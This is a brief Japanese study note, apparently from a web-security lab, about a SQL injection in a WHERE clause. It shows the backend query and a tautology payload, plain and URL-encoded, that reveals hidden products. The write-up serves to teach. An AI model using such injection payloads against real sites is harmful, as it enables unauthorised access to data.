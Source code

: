 ## ## WHERE 句の SQL インジェクション脆弱性により、隠しデータの取得
- SQL文
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
ユーザが操作できるのはgiftsの値だけ。

- Payload
```
?category=Gifts' or 1=1-- <-スペース必要
↓エンコードするとこうなる。
?category=Gifts'%20or%201%3d1--%20
```
